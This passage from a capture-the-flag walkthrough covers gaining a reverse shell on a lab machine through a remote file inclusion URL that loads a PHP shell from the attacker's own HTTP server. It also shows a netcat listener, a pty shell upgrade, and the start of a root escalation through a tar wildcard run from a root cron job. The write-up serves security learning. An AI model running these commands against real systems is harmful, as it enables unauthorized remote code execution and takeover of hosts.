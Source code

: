 ```
So what we have to do is, create our python http server an put our php reverse shell on it.
You can get it on `www.revshells.com`

Host an http server on port 4000.
`python3 -m http.server 4000`

Don't forget to change the ip address and the port number. I set it to 1234.
Setup a listener - `nc -lvnp 1234`

And this url will give us a shell.
```
http://$ip/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://$your_ip:4000/php_revshell.phtml?
```

Use this to get a better shell. 
```
python -c 'import pty;pty.spawn("/bin/bash")'
```

The user flag is in /home/milesdyson/user.txt

``` 
4. What is the user flag?
Ans: <--Redacted-->
```

## Privilege Escalation

I tried using all the 'highly probable' exploits shown by linpeas.sh. But it didn't work.

Turns out that this one is an abuse of the wildcard (*) in linux.

Upon checking some configurations of this machine. We see that on ```/etc/crontab```
```
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/1 *   * * *   root    /home/milesdyson/backups/backup.sh
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```
The purpose of /etc/crontab is to list actions which will be executed repeatedly with a certain period. 
Here, ```backup.sh``` is running as root every minute.

Let's check what's inside.
```
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```
tar cf /home/milesdyson/backups/backup.tgz <span style="color:red">*</span>

Here we can see a vulnerable wildcard. If i have some argument (--some-argument) as a filename then it will be considered as an command tag and will execute accordingly.

Here are some of the arguments we can abuse.
```